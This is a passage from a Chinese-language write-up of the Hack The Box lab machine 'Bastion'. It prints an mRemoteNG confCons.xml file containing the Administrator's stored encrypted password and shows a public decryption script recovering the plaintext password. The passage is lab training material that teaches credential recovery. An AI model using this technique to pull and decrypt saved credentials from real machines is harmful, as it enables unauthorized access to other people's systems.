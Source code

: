 查看confCons.xml文件，发现`Administrator`的哈希密码：`aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==`

```
┌──(root kali)-[~/htb/Bastion]
└─# cat confCons.xml                                    
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
```

这串密码看上去像bash64，但其实不是。在谷歌上搜索mremoteng decrypt找到这个[mremoteng decrypt脚本](https://github.com/haseebT/mRemoteNG-Decrypt)

解密

```
root@kali#  python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```

拿到Administrator的登陆密码：thXLHM96BeKL0ER2
